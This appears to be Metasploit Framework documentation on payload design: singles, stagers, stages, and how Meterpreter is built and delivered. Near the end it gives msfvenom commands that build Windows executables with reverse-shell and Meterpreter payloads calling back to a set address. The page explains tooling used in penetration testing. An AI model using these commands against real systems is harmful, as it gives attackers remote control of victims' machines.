 Payloads are defined in ```modules/payloads/{singles,stages,stagers}/<platform>```. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: ```<platform>/[arch]/<stage>/<stager>```
  - Single payloads: ```<platform>/[arch]/<single>```

### Singles
Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers
Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages
Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.

## Meterpreter
To avoid confusion, the victim running meterpreter is always called the server and the ruby side controlling it is always called the client, regardless of the direction of the original connection.

The Meterpreter server is broken into several pieces:
  - ```metsrv.dll``` - this is the heart of meterpreter where the protocol and extension systems are implemented
  - ```ext_server_stdapi.dll``` - this extension implements most of the commands familiar to users
  - ```ext_server_*.dll``` - other extensions provide further functionality

### Delivering Meterpreter

1. Using a technique developed by Stephen Fewer, metsrv.dll's header is modified to be usable as shellcode. From there, Metasploit can embed it in an executable or run it via an exploit like any other shellcode.

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are functionally identical -- there is a lot of randomization that goes into it so no two executables are the same.)

1. The Ruby side acts as a client, speaking the meterpreter wire protocol over whichever transport mechanism was set up by the stager (tcp or http(s)).
